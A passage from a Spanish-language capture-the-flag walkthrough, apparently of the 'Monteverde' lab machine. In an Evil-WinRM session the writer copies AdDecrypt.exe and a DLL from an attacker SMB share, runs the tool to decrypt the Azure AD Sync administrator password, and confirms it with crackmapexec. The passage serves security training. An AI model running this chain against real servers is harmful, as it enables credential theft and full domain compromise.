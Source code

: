 ```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> mkdir Privesc
*Evil-WinRM* PS C:\Users\mhope\Desktop\Privesc> copy \\10.10.16.10\smbFolder\AdDecrypt.exe AdDecrypt.exe
*Evil-WinRM* PS C:\Users\mhope\Desktop\Privesc> copy \\10.10.16.10\smbFolder\mcrypt.dll mcrypt.dll
*Evil-WinRM* PS C:\Users\mhope\Desktop\Privesc> dir

    Directory: C:\Users\mhope\Desktop\Privesc

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/13/2020   9:11 PM          14848 AdDecrypt.exe
-a----        1/12/2020   6:33 PM         334248 mcrypt.dll
```

Finalmente debemos ejecutar el siguiente comando `AdDecrypt.exe -FullSQL`, pero debemos hacerlo desde el siguiente directorio `C:\Program Files\Microsoft Azure AD Sync\Bin`.

Ahora recordemos que debemos ejecutar el `AdSyncDecrypt.exe` desde la ruta donde lo subimos.

```bash
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Desktop\Privesc\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

Validamos las credenciales administrativas `administrator:d0m@in4dminyeah!`.

```bash
❯ crackmapexec smb 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\administrator:d0m@in4dminyeah! (Pwn3d!)
```

Nos conectamos como el usuario `administrator` con `Evil-WinRM` y podemos visualizar la segunda flag `root.txt`.
